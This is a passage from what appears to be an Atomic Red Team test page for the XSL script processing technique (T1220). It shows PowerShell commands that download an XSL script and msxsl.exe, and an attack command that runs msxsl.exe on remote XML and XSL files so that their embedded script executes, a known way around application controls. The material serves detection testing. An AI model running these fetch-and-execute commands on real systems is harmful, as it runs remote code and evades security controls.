 ```powershell
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1220/src/msxslscript.xsl" -OutFile "#{xslfile}"
```
##### Description: msxsl.exe must exist on disk at specified location (#{msxsl_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{msxsl_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://web.archive.org/web/20200803205229if_/https://download.microsoft.com/download/f/2/6/f263ac46-1fe9-4ae9-8fd3-21102100ebf5/msxsl.exe" -OutFile "#{msxsl_exe}"
```




<br/>
<br/>

## Atomic Test #2 - MSXSL Bypass using remote files
Executes the code specified within a XSL script tag during XSL transformation using a remote payload.
Requires download of MSXSL.exe. No longer available from Microsoft.
(Available via Internet Archive https://web.archive.org/web/20200825011623/https://www.microsoft.com/en-us/download/details.aspx?id=21714 )
Open Calculator.exe when test successfully executed, while AV turned off.

**Supported Platforms:** Windows


**auto_generated_guid:** a7c3ab07-52fb-49c8-ab6d-e9c6d4a0a985





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| xmlfile | Remote location (URL) of the test XML file. | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/msxslxmlfile.xml|
| xslfile | Remote location (URL) of the test XSL script file. | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/msxslscript.xsl|
| msxsl_exe | Location of the MSXSL executable. | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;msxsl.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{msxsl_exe}" "#{xmlfile}" "#{xslfile}"
```
